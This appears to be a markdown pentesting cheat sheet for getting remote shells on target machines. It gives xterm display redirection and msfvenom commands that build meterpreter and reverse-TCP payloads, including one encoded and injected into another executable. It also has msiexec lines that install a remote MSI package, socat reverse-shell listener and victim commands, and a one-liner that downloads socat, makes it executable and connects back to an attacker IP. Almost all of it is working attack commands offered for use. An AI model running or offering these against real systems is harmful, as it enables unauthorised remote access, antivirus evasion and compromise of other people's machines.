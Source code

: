 ## xterm
* target
```
xterm -display 10.0.0.1:1
```

* attacker
```
root@kali:~# Xnest :1
root@kali:~# xhost +targetip
note: xserver for :1 listens on 6001
```


## rundll32.exe
TODO
## Regsvr32.exe
TODO

## msiexec
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```
```
c:\> msiexex \q \i http://10.10.10.1/1.msi #from url :D
c:\> msiexex \q \i 1.msi
```

## exe
```
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=192.168.100.220 LPORT=4444 -f exe -o shell.exe
```
injected in another binary
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## socat

* kali
```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
```
* victim
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```

* binaries : https://github.com/andrew-d/static-binaries
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```
